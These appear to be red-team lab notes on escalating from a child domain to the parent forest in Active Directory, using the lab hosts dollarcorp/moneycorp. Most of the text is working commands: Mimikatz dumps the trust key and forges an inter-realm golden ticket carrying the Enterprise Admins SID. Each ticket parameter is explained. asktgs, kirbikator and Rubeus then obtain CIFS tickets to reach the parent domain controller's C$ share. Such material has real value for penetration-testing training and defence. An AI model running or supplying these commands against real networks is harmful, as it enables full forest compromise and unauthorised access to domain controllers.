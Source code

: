# (Child to Parent)(Forest priv esc)Knock knock whos there? Enterprise admin plz open the gates
## sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed,they get a new SID and the old SID is added to sIDHistory.sIDHistory can be abused in two ways of escalating privileges within a forest:
– krbtgt hash of the child
– Trust tickets
## So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent.
`Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc`
## We can forge and inter-realm TGT:
`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'`

kerberos::golden The mimikatz module
/domain:dollarcorp.moneycorp.local FQDN of the current domain
/sid:S-1-5-21-1874506631-3219952063-538504511 SID of the current domain
/sids:S-1-5-21-280534878-1496970234-700767426-519 SID of the enterprise admins group of the parent domain
/rc4:7ef5be456dc8d7450fb8f5f7348746c5 RC4 of the trust key
/user:Administrator User to impersonate
/service:krbtgt Target service in the parent domain
/target:moneycorp.local FQDN of the parent domain
/ticket:C:\AD\Tools\trust_tkt.kirbi Path where ticket is to be saved

## Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
`.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local`
## Use the TGS to access the targeted service.
`.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi`
`ls \\mcorp-dc.moneycorp.local\c$`
## Tickets for other services (like HOST and RPCSS for WMI, HTTP forPowerShell Remoting and WinRM) can be created as well
## We can use Rubeus too for same results! Note that we are still using the TGT forged initially
`Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt`
`ls \\mcorp-dc.moneycorp.local\c$`
